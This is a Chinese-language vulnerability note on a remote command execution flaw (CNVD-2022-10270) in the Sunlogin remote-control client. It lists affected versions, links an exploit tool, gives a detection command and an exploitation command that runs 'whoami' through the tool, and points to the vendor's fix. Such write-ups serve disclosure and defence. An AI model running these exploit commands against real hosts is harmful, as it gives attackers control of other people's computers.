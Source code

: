 ```yaml
---
title: 向日葵RCE（CNVD-2022-10270）
---
```


## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

向日葵是一款免费的，集远程控制电脑手机、远程桌面连接、远程开机、远程管理、支持内网穿透的一体化远程控制管理工具软件。上海贝锐信息科技股份有限公司向日葵个人版for Windows存在命令执行漏洞，攻击者可利用该漏洞获取服务器控制权。

## 风险等级

高危

## 影响版本

11.1.1
10.3.0.27372
11.0.0.33162

## 资产确定

SunloginClient_10.3.0.27372（目前版本已经修复）

## EXP

[https://github.com/TRYblog/sunlogin_rce_](https://github.com/TRYblog/sunlogin_rce_)

## 漏洞检测

```
xrkrce.exe -h 127.0.0.1
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/xrkrce02.png)

## 漏洞利用

```
xrkrce.exe -h 127.0.0.1 -t rce -p 60360 -c "whoami"
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/xrkrce01.png)

## 修复建议

厂商已发布了漏洞修复程序，请及时关注更新：
https://sunlogin.oray.com/
